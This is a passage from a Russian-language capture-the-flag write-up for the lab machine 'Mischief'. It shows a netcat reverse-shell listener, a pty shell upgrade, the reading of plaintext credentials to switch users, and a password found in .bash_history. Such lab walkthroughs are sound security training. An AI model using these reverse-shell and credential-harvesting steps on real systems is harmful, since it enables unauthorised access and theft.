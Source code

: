```text
(или так: nc -lvn dead:beef:2::1009 31337)

root@kali:~# nc -6 -lvnp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Connection from dead:beef::250:56ff:feb9:7caa.
Ncat: Connection from dead:beef::250:56ff:feb9:7caa:47306.
$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Mischief:/var/www/html$ cat /home/loki/credentials
cat /home/loki/credentials
pass: lokiisthebestnorsegod
www-data@Mischief:/var/www/html$ su - loki
su - loki
Password: lokiisthebestnorsegod

loki@Mischief:~$ whoami
whoami
loki
```

```text
loki@Mischief:~$ cat user.txt
cat user.txt
bf58078e????????????????????????
```

# PrivEsc: loki → root
## Пароль в .bash_history
Осматриваясь на хосте, в `.bash_history` был найден пароль для питоновского сервера, на первый взгляд очень похожий на один из тех, который встречался нам раньше:
```text
loki@Mischief:~$ cat .bash_history
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history
nano .bash_history
exit
```
